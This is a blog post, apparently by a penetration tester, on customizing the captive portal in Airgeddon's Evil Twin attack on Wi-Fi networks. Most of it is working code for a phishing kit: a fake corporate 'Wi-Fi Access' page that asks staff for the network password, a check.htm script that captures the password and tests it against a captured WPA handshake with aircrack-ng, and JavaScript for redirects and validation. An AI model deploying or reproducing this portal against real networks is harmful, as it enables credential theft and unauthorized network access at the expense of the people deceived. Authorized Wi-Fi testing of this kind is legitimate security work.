 ```yaml
---
title: "Customize your Captive Portal in Airgeddon's Evil Twin Attack"
categories:
    - Penetration Test
    - Wi-Fi
toc: true
toc_label: "Table of Contents"
toc_sticky: true
show_date: true
---
```


# Introduction
During a Wi-Fi penetration test recently, I tried to explore further about Evil Twin attacks, which is one of the client-side attacks. To whom may not know much about this attack, Evil Twin attacks involve adversaries who attempt to mimic a target Wi-Fi access point with a rogue acccess point and to trick users to connect the fake one.


# Airgeddon

![](/assets/images/2025-09-06-01.png)

# Custom Portal Plugin

## Installation

https://github.com/KeyofBlueS/airgeddon-plugins


```sh
┌──(root㉿kali)-[/usr/share/airgeddon/plugins]
└─# ls -al
total 96
drwxr-xr-x 3 root root  4096 Sep  5 23:45 .
drwxr-xr-x 4 root root  4096 Sep  5 21:35 ..
drwxr-xr-x 2 root root  4096 Sep  5 23:45 custom_portals
-rw-r--r-- 1 root root 38008 Sep  5 23:38 customportals.sh
-rw-r--r-- 1 root root 34298 Aug  1 19:07 missing_dependencies.sh
-rw-r--r-- 1 root root  6401 Aug  1 19:07 plugin_template.sh
```

# Working on the Template
## index.htm
`index.htm` is the captive portal page that tricks users to provide information, such as Wi-Fi password or even their active directory credentials. In the following example, we attempt to tell the staff to provide the corporate Wi-Fi password in a scenario of WPA-PSK SSIDs.

```sh
#!/usr/bin/env bash
echo '<!DOCTYPE html>'
echo '<html>'
echo -e '	<head>'
echo -e '		<meta name="viewport" content="width=device-width"/>'
echo -e '		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>'
echo -e '		<title>"${et_misc_texts[${captive_portal_language},15]}"</title>'
echo -e '		<link rel="stylesheet" type="text/css" href="portal.css"/>'
echo -e '		<script type="text/javascript" src="portal.js"></script>'
echo -e '	</head>'
echo -e '	<div class="content">'
echo -e '		<form method="post" id="loginform" name="loginform" action="check.htm">'
echo -e '			<img src="./logo.png" alt="Logo" class="logo"/>'
echo -e '			<h1>Wi-Fi Access</h1>'
echo -e '			<p class="description">Please enter the Wi-Fi password to gain access to the corporate Wi-Fi network.</p>'
echo -e '			<label><input id="password" maxlength="63" name="password" size="20" type="password" placeholder="Password" class="input-field"/></label>'
echo -e '			<input type="submit" value="Connect" class="button"/>'
echo -e '		</form>'
echo -e '		<p class="warning">Only authorized persons are allowed to access the coporate network of ABC Company.</p>'
echo -e '	</div>'
exit 0
```

You may also notice that the form action will be taken in `check.htm` where I will explain further in the next section.

## check.htm

`check.htm` is to proceed the form submission by users in `index.htm`. The script would firstly extract the information from the POST HTTP data. In this case, the password is retrieved.

```sh
POST_DATA=$(cat /dev/stdin)
if [[ "${REQUEST_METHOD}" = "POST" ]] && [[ ${CONTENT_LENGTH} -gt 0 ]]; then
	POST_DATA=${POST_DATA#*=}
	password=${POST_DATA/+/ }
	password=$(printf '%b' "${password//%/\\x}")
fi
```

Once the password is retrieved, there are a couple of conditional statements following. The first one is to validate the length of the password provided by the user. The length should be at least 8 characters and less than 64 characters. If validated, the password will be temporarily saved in `${tmpdir}${webdir}${currentpassfile}`, which should typically be `/tmp/ag1/www/`. The password will be used to crack the hash in the 4-way handshake file captured by airodump-ng and Airgeddon.

```sh
if [[ ${#password} -ge 8 ]] && [[ ${#password} -le 63 ]]; then
	rm -rf "${tmpdir}${webdir}${currentpassfile}" > /dev/null 2>&1
	echo "${password}" >\
	"${tmpdir}${webdir}${currentpassfile}"
	aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}" | grep "KEY FOUND!" > /dev/null
```

Then, check whether `KEY FOUND` is in the output of `aircrack-ng` to determine the attack is successful or not.

```sh
if [ "$?" = "0" ]; then
	touch "${tmpdir}${webdir}${et_successfile}" > /dev/null 2>&1
	echo '<h1 class="success">Connection Success</h1>The password is correct, the connection will be restablished in a few moments'
	et_successful=1
else
	echo "${password}" >>\
	"${tmpdir}${webdir}${attemptsfile}"
	echo '<h1 class="error">Connection Error</h1>The password is incorrect, redirecting to the main screen'
	et_successful=0
fi
```

## portal.css

You could customize the CSS content here.

## portal.js

In `check.htm`, if the password is not correct, the user will be redirected to the captive portal page in a few seconds.

```sh
if [ ${et_successful} -eq 1 ]; then
    exit 0
else
    echo '<script type="text/javascript">'
    echo -e '\tsetTimeout("redirect()", 3500);'
    echo '</script>'
    exit 1
fi
```

The JavaScript function `redirect()` is called in `portal.js` to redirect to `index.htm`.

```javascript
function redirect() {
    document.location = "index.htm";
}
```

Meanwhile, some response corresponding to the form could be included here, such as password length validation.

```javascript
(function() {
    var onLoad = function() {
        var formElement = document.getElementById("loginform");
        if (formElement != null) {
            var validateForm = function(event) {
                event.preventDefault();
                var password = document.getElementById("password").value;
                if (password === "") {
                    alert("Please enter the Wi-Fi password.");
                } else if (password.length < 8) {
                    alert("The password must be at least 8 characters.");
                } else {
                    formElement.submit();
                }
            };
            formElement.addEventListener("submit", validateForm);
        }
    };

    document.readyState != 'loading' ? onLoad() : document.addEventListener('DOMContentLoaded', onLoad);
})();
```

# The Demo Captive Portal

Put the template in a sub-folder of `/usr/share/airgeddon/plugins/custom_portals/`.

```sh
┌──(root㉿kali)-[/usr/…/airgeddon/plugins/custom_portals/Demo]
└─# ls -al
total 48
drwxr-xr-x 2 root root  4096 Sep  6 02:11 .
drwxr-xr-x 3 root root  4096 Sep  5 23:46 ..
-rw-r--r-- 1 root root  2036 Sep  6 02:10 check.htm
-rw-r--r-- 1 root root  1170 Sep  6 02:10 index.htm
-rwxr-x--- 1 root root 24228 Sep  6 02:11 logo.png
-rw-r--r-- 1 root root  1556 Sep  6 02:10 portal.css
-rw-r--r-- 1 root root   889 Sep  6 02:11 portal.js
```

After the handshake capture file with deauthentication has been obtained, a rogue AP will be established with the captive portal.

![](/assets/images/2025-09-06-02.png)


![](/assets/images/2025-09-06-03.png)

# Resources

https://zimperium.com/glossary/evil-twin-attacks